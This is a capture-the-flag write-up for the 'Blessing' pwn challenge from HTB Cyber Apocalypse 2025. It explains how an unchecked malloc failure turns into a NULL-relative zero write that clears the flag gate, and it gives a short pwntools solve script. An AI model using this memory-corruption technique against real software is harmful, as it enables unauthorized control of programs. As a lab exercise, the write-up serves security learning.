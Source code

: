 ```yaml
---
title: Blessing
type: writeup
date: 2025-03-26T03:00:19+03:00
description: Writeup for Blessing [HTB Cyber Apocalypse 2025]
author: PineBel
tags:
- pwn
draft: false
---
```

___

## Challenge Description
In the realm of Eldoria, where warriors roam, the Dragon's Heart they seek, from bytes to byte's home. Through exploits and tricks, they boldly dare, to conquer Eldoria, with skill and flair.

## Intuition

We get a binary that does a malloc of 0x30000.
After the malloc it sets the first byte from that malloc to 1.
We also get the pointer from malloc as a leak.
To read the flag we need to overwrite the 1 to 0.

**Vulnerability**:  After the leak we need to give an input which will be used in another malloc. This means that we control the size of the malloc, we can also write content to it but in this case it doesn't matter since we have this vulnerability:
```
*(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0; ---> overflow of 7 bytes
```

## Solution

Initially I thought we should use a large enough malloc so that we mmap right before the first allocated chunk, but the closest I could get to the target chunk was 24 bytes because of alignment. So this doesn't seem like the solution.


```C
  my_malloc_ptr = malloc(my_malloc_len);
  ...
  *(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0;
```

Malloc's behaviour when given a really large value will fail and return NULL.
So what happens if I give a really large value?

```C
  my_malloc_ptr = malloc(LARGE);
  ...
  *(undefined8 *)((long)NULL+ (LARGE- 1)) = 0;
```

So basically if we make malloc return `NULL` we can write those 0s at `LARGE-1`.

So the solution would be to just:
1. Get the leak
2. Since the leak is large, we can give it to malloc which will cause it to fail and write to leak - 1.

Solve:
```py
from pwn import *


target = process("./blessing_1")

target.recvuntil(b'is: ')
leak = int(target.recv(14), 16)
target.sendlineafter(b'th: ', str(leak).encode())
target.sendlineafter(b'ng: ', b'x')

target.interactive()
```





